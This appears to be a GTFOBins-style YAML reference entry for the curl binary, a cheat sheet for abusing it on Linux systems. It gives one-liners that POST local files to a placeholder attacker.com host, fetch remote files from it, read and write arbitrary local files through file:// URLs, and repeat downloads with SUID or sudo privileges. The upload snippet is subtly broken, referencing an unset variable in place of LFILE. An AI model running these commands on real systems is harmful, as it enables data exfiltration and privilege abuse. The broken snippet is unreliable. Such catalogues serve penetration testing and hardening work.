 ```yaml
---
functions:
  file-upload:
    - description: Send local file with an HTTP POST request. Run an HTTP service on the attacker box to collect the file. Note that the file will be sent as-is, instruct the service to not URL-decode the body. Omit the `@` to send hard-coded data.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        curl -X POST -d @$file_to_send $URL
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        curl $URL -o $LFILE
  file-read:
    - description: The file path must be absolute.
      code: |
        LFILE=/tmp/file_to_read
        curl file://$LFILE
  file-write:
    - description: The file path must be absolute.
      code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo DATA >$TF
        curl "file://$TF" -o "$LFILE"
  suid:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        ./curl $URL -o $LFILE
  sudo:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        sudo curl $URL -o $LFILE
---
```

